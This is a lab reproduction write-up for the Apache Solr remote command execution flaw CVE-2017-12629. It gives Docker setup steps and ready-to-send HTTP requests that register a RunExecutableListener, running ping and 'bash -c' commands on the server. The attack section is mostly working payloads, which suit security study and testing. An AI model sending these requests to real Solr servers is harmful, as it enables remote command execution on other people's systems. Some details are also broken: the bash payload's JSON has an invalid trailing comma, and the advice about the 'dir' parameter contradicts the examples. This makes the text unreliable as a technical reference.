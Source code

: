 ```yaml
---
title: Apache Solr RCE Remote Command Execution Vulnerability CVE-2017-12629
---
```


# Apache Solr RCE Remote Command Execution Vulnerability CVE-2017-12629

## Vulnerability Description
Apache Solr is an open source search server. 

## Affect Version
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Solr < 7.1</span>

## Environment construction
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## Vulnerability reappears
First request the url address to obtain core content
```shell
/solr/admin/cores
```
By viewing the code, there are two events that can trigger command execution: `postCommit` and `newSearcher`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ec27d0b9-f86d-43b7-9fe4-1bba02cbf334.png)



The first request package is used to load the cache

```
exe : ping  执行的命令
dir: 命令存在的目录位置
args:命令参数
```

The following request package executes /bin/ping 1.1.1.1

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220307151501330.png)

The second request package is used to update the cache and execute commands

```shell
POST /solr/demo/update

[{"id":"test"}]
```
Enter the docker container to see that the command has been executed

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/53ffedcf-5cc3-42cf-9623-a076ed001ac8.png)

Use newSearcher to load cache execution commands directly

```shell
POST /solr/demo/config HTTP/1.1
Host:
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

The command to create the file was successfully executed

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/567692f5-4845-439f-b747-020011068da8.png)

If you want to execute other commands, you need to have the location of the command. For example, if you execute ping, you need to set the dir parameter to /usr/bin/ping or /bin/ping. If you need to detect whether the vulnerability exists, you can use dnslog to detect it.

